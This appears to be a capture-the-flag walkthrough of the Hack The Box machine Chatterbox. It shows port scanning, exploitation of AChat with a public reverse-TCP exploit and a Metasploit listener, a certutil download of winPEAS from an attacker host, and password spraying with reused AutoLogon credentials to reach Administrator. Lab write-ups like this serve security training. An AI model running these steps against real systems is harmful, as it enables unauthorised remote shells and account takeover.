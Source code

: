 # Chatterbox - Hack The Box Walkthrough

**Date**: 2024-11-21  

---

## Scope

The target is a Windows machine named `Chatterbox` with the following details:

- **IP Address**: `10.10.10.74`
- **OS**: Windows 7 Professional SP1
- **Computer Name**: `CHATTERBOX`
- **Workgroup**: `WORKGROUP`

---

## Enumeration

### 1. Full Port Scan
To identify open ports, I performed a full Nmap scan:
```bash
nmap -p- 10.10.10.74 -v -oN nmap/full_scan.chatterbox.txt
```

**Open Ports**:
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9255/tcp  open  mon
9256/tcp  open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
```

### 2. Service Enumeration
A more detailed scan was conducted on the identified ports:
```bash
nmap -p135,139,445,9255,9256,49152-49157 -A -T4 -v -oN nmap/service_scan.chatterbox.txt
```

**Key Findings**:
- **OS**: Windows 7 Professional SP1
- **Hostname**: CHATTERBOX
- **Workgroup**: WORKGROUP
- **Notable Services**:
  - SMB misconfiguration: Message signing disabled but not required.
  - Ports 9255 and 9256 associated with AChat chat software.

---

## SMB Enumeration

SMB enumeration was conducted using various tools (`enum4linux`, `crackmapexec`), but no valuable information was found. The misconfigured SMB signing (disabled but not required) could allow an SMB Relay attack.

```text
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

---

## RPC Enumeration

I used `rpcclient` and `rpcdump` to query RPC information, but no significant data was revealed.

---

## Exploitation

### 1. Identifying AChat
Ports 9255 and 9256 are commonly associated with AChat, a Windows-based chat application. Using `searchsploit` and online research, I found exploits for AChat:
- **Reference**: [Port 9256 Details](https://www.speedguide.net/port.php?port=9256)
- **Exploit**: [AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit)

![Screenshot from 2024-11-22 17-05-24](https://github.com/user-attachments/assets/911bb632-cc95-4ea6-98c3-01c0e77a8411)

### 2. Exploiting AChat
Steps to exploit AChat:
1. **Clone the Exploit Repository**:
   ```bash
   git clone https://github.com/mpgn/AChat-Reverse-TCP-Exploit
   cd AChat-Reverse-TCP-Exploit
   ```
2. Change script permission and **Generate Payload**:
   ```bash
   chmod +x AChat_Payload.sh
   ./AChat_Payload.sh.sh
   ```
   I selected `windows/shell/reverse_tcp` as the payload.

3. **Set Up Listener**:
   On Metasploit, I configured the handler:
   ```bash
   use exploit/multi/handler
   set PAYLOAD windows/shell/reverse_tcp
   set LHOST <your_ip>
   set LPORT <your_port>
   run
   ```

4. **Execute Exploit**:
   I updated the Python exploit script with the payload and executed it:
   ```bash
   AChat_Exploit.py
   ```

**Outcome**: Successfully gained a shell and retrieved the **user flag**.

![Screenshot from 2024-11-24 17-58-15](https://github.com/user-attachments/assets/c6a3f4a1-ff50-4bde-bce0-4af9e63d291f)

---

## Post Exploitation

### 1. Local Enumeration
I performed manual enumeration and transferred `winPEAS` to the target for privilege escalation analysis.
I started a listener on my machine:
```bash
python3 -m http.server 8081  # Start web server
```

Then I move in a temp directory and downloaded winPEAS:
```bash
cd C:\Windows\Temp
certutil -urlcache -f http://<your_ip>:8081/winPEASx86.exe wp.exe  # Download on target
wp.exe  # Execute winPEAS
```

### 2. AutoLogon Credentials
WinPEAS revealed AutoLogon credentials:
```
DefaultUserName: Alfred
DefaultPassword: ********
```

### 3. Password Spraying
Using the AutoLogon password, I tested all users on the target:
```bash
crackmapexec smb 10.10.10.74 -u users -p "********" --continue-on-success
```

**Outcome**: The password also worked for the `Administrator` account.

![Screenshot from 2024-11-24 18-13-47](https://github.com/user-attachments/assets/c97e9093-2419-40e0-9097-3fa1c76d6d36)

---

## Privilege Escalation

Using the administrator credentials, I logged in and retrieved the **root flag**.

### Steps:
1. **Login via WMIExec**:
   ```bash
   wmiexec.py CHATTERBOX/Administrator:"********"@10.10.10.74
   ```

2. **Flag Retrieval**:
   Navigated to the `C:\Users\Administrator\Desktop` directory and retrieved the root flag.

---

## Summary

1. Enumerated services and identified AChat running on port 9256.
2. Exploited AChat using a reverse TCP shell payload.
3. Retrieved AutoLogon credentials and escalated privileges via a password spraying attack.
4. Logged in as Administrator and retrieved both user and root flags.

---

## Resources

- [Port 9256 Details](https://www.speedguide.net/port.php?port=9256)
- [AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit)

---

Let me know if you'd like to adjust or expand any section!
